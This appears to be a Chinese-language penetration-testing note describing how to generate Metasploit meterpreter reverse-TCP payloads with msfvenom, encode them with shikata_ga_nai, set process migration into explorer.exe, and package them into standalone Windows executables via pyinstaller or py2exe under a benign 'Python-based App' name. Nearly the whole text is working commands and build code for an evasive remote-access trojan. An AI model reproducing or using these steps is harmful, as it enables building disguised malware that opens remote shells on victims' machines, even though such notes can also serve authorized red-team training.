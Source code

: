 #### pyinstaller加载py代码编译(*)
	生成py格式payload
	MSF监听需设置自动迁移进程set autorunscript migrate -n explorer.exe
	>msfvenom -p windows/meterpreter/reverse_tcp LPORT=12138 LHOST=192.168.0.108 -e x86/shikata_ga_nai -i 11 -f py -o /var/www/html/1.py
	粘贴shellcode到shellcode+py.py中，在32位系统上安装python、py2exe、pyinstaller进入C:\Python27\Scripts目录使用命令把py打包为exe
	>python pyinstaller-script.py --console --onefile shellcode.py
	会在目录下生成dist文件夹，exe文件就在里面
	
![image](/assets/Pentest_Note/master/img/60.png)
![image](/assets/Pentest_Note/master/img/61.png)
![image](/assets/Pentest_Note/master/img/62.png)
#### Py2exe打包exe
	生成raw格式payload
	MSF监听需设置自动迁移进程set autorunscript migrate -n explorer.exe
	>msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.0.108 LPORT=12138 -f raw -o /var/www/html/shell.py
	在32位系统上安装python、py2exe
	创建setup.py放置同一目录
![image](/assets/Pentest_Note/master/img/63.png)

	from distutils.core import setup
	import py2exe
	setup(
	name = "Meter",
	description = "Python-based App",
	version = "1.0",
	console = ["shell.py"],
	options = {"py2exe":{"bundle_files":1,"packages":"ctypes","includes":"base64,sys,socket,struct,time,code,platform,getpass,shutil",}},
	zipfile = None
	)
	执行打包命令
	>python setup.py py2exe
	会在当前目录生成dist文件夹，打包好的exe在里面
![image](/assets/Pentest_Note/master/img/64.png)